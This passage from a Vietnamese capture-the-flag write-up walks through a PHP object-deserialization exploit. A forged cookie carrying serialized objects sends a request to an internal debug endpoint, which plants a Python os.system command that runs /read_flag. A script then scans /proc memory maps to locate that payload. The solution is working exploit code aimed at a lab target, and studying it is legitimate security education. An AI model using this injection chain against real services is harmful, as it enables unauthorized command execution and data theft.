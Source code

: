 Trong đó $PID là pid của proccess python đang được sử dụng

Khi dump ra thì ta tìm được msg đã print flush khi nãy

![image](https://hackmd.io/_uploads/Hkbor2eu1g.png)

Ok thì bây giờ ta đã biết được file để eval nhung còn offset và length ???

Có thể thấy length là length của đoạn eval mình sẽ thực hiện nên mình không phải lo

Nhưng còn offset là một câu chuyện khác chủng ta sẽ tiếp tục phân tích

#### Vào internal/eval để thực hiện lệnh được lưu trong bộ nhớ trên bằng eval

Ok thì để eval thì ta cần một lệnh linux cụ thể là /read_flag. Ở đây mình sử dụng `/read_flag > ~/b` để lấy flag ra ngoài file b, ngoài ra có thể sử dụng webhook để lấy 

Ok thì như trên mình có thể sử dụng Object serialize để truyển vào lệnh để eval như sau

```python
import requests
import base64

cmd_to_run = 'exec(\'import os;os.system("/read_flag > ~/b")\')'

#debug
cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:36:"http://back-end:3000/internal/debug?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:1:{s:3:"msg";s:'+str(len(cmd_to_run))+':"'+cmd_to_run+'";}}'

cmd = cmd.encode()

cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

x = requests.get("http://127.0.0.1:8081/", cookies=cookie)
print(x.text)
```


File mem trên được chia thành nhiều thread và ta có thể đọc được thông qua file /proc/mem/maps

![image](https://hackmd.io/_uploads/ryMjI2gOke.png)

Ok thì mình chắc chắn msg nằm trong những thread này nên mình có thể brute force xem nó nằm ở thread nào 

```python
with open("/proc/$PID/maps", "r") as f:
    f=f.read().splitlines()
    for i in f:
        thr = i.split('-')[0]
        try:
            with open("/proc/$PID/mem", "rb") as g:
                g.seek(int(thr, 16))
                if (b"exec('import os" in g.read(1000001)):
                    print(thr)
        except:
            pass
```

